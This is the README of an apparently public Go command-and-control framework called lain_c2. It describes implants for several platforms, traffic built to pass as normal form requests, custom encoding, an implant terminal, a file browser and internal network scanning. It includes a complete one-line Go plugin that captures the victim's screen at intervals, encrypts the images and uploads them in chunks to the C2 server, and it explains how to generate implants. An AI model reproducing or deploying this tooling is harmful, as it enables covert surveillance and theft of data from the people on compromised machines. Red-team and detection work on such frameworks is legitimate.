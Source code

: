 ![start.png](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/start.png)

## lain command-control-frame work

golang framework,agent it supports platforms such as Windows linux、macos、Android。 The currently supported communication protocols are https \ http

### Features

Custom server error response

sharing host to players

Custom CSS file

Multiplayer-mode

Dynamic-encryption

Cross-platform

intranet-information-collection

File Browser

Segmented file transfer

web-ui

Customize Plugins code

group jobs

jobs、result cache

msg queue operation

Customize implants request parameters

Client history file directory cache

Access control whitelist

Customize log language messages

### Getting Started

```json
{
    "users": [
        {
            "username": "aaf95bdd47f00d8435c49185",
            "password": "dfb95aac49185dd47f008435"
            //Change the password and username field to md5 encryption and remove the last 8 digits
        }
    ]
}
```

```cmd
Usage of C:\Users\ADMINI~1\AppData\Local\Temp\go-build3450987718\b001\exe\server.exe:
  -DefaultCert
        Use default public and private keys
  -cert string
        Customize public key path
  -css string
        Use default css file
  -http
        Use HTTP instead of HTTPS
  -key string
        Customize private key path
  -p string
        Port (default "443")
  -resp-error string
        web error resp (default "error")
  -title string
        web ui title (default "connect")
```

![image-20250722224250819](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/help.png)

### Start server

Open the listening c2 service port. In order to better conceal and simulate real traffic, all traffic is get and post forms, write the request parameters for communication with the implant, and the parameters must not be repeated. Then select http\https

![lain_c2/html/image-1.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-1.png)

After the update, a custom Base64 encoding feature has been added. It supports generating either a random encoding table or a user-provided table that conforms to the Base64 rules. Each listening service is associated with a unique encoding table.

![lain_c2/html/image-2.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-2.png)

Click the corresponding platform link to generate the implant code

![lain_c2/html/image-3.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-3.png)

### Plugin Code into Implants

Each listening service inserts the same plug-in code

![lain_c2/html/image-6.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-6.png)

plugin code be like this,the top is the plugin code, then you must select the number of parameters (not less than the actual parameters), compress the Go language code into one line and enter the necessary parameters into the input box. The last input box is the description of the parameters

![lain_c2/html/image-4.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-4.png)

 the description of the parameters: msg1, msg2; description of msg1 parameters, description of msg2 parameters (the corresponding parameter descriptions are separated by check marks and corresponding indexes)

![lain_c2/html/image-9.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-9.png)

Plugin code for different platforms

![lain_c2/html/image-8.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-8.png)

Windows

WindowsJpg

Parameter count 4

interval,duration,quality,slices

```go
intervalSec,err:=strconv.Atoi(msg1);if err!=nil||intervalSec<=0{intervalSec=3};durationSec,err:=strconv.Atoi(msg2);if err!=nil||durationSec<=0{durationSec=30};quality,err:=strconv.Atoi(msg3);if err!=nil||quality<1||quality>100{quality=80};intSize,err:=strconv.Atoi(msg4);if err!=nil||intSize<1048576{intSize=1048576};frameInterval:=time.Duration(intervalSec)*time.Second;duration:=time.Duration(durationSec)*time.Second;numCaptures:=int(duration/frameInterval);bounds:=screenshot.GetDisplayBounds(0);for i:=1;i<screenshot.NumActiveDisplays();i++{bounds=bounds.Union(screenshot.GetDisplayBounds(i))};for i:=0;i<numCaptures;i++{img,err:=screenshot.CaptureRect(bounds);if err!=nil{continue};jpegBuf:=new(bytes.Buffer);err=jpeg.Encode(jpegBuf,img,&jpeg.Options{Quality:quality});if err!=nil{continue};fileContent:=EncryptDecrypt(jpegBuf.Bytes());fileSize:=len(fileContent);start:=0;end:=intSize;for start<fileSize{if end>fileSize{end=fileSize};str_encry:=user+"^"+strconv.Itoa(intSize)+"^"+strconv.Itoa(fileSize)+"^"+strconv.Itoa(start)+"^"+strconv.Itoa(end);data_encry:=get_encry_s(&str_encry);chunk:=fileContent[start:end];var buffer bytes.Buffer;writer:=multipart.NewWriter(&buffer);filename:=time.Now().Format("20060102_150405")+".jpg";encFilename:=get_encry_s(&filename);part,err:=writer.CreateFormFile("/*upload*/",encFilename);if err!=nil{break};_,err=io.Copy(part,bytes.NewReader(chunk));if err!=nil{break};writer.WriteField("/*uid*/",uid);writer.WriteField("/*result*/",data_encry);writer.Close();url:=protocol+master+"//*Path*/?/*option*/=/*upload*/";req,err:=http.NewRequest("POST",url,&buffer);if err!=nil{break};req.Header.Set("Content-Type",writer.FormDataContentType());req.Header.Set("Range","bytes="+strconv.Itoa(start)+"-"+strconv.Itoa(end-1));resp,err:=client.Do(req);if err!=nil{break};resp.Body.Close();if resp.StatusCode!=http.StatusOK{break};start=end;end=start+intSize;time.Sleep(time.Duration(delay)*time.Second)};time.Sleep(frameInterval)}
```



### change Implant info

Modify the input directly and press the Save Change button

![lain_c2/html/image-7.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-7.png)

### Implant Terminal

![lain_c2/html/image-10.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-10.png)

### File Browser

![lain_c2/html/image-11.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-11.png)

### sniff host choose port

![lain_c2/html/image-12.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-12.png)

    scan host [target 192.168.1(1,20,45...)or(1-253)]	[range(1,20,45...)or(1-65534)]	[delay])
    scan port [target 192.168.1.1] [range(1,20,45...)or(1-65534)]	[delay])
